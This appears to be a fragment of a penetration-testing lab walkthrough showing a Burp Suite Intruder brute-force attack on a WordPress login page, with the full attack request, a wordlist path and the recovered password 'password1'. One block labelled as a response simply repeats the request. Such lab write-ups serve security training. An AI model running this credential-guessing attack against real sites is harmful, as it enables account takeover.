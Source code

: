```
```

🔄 Alternative 🔄

`burpsuite` > `Intruder` > `Payloads` = `Payload configuration: Load: /usr/share/wordlists/metasploit/unix_passwords.txt` > `Settings` = `Redirections: Always` > `Start attack`

`HTTP Request`:
```http
POST /wp-login.php📌 HTTP/2
Host: k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com
Referer: https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

log=pentester&pwd=§password§&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1📌
```
`HTTP Response`:
```http
POST /wp-login.php HTTP/2
Host: k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com
Referer: https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

log=pentester&pwd=password1&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1🔑
```

---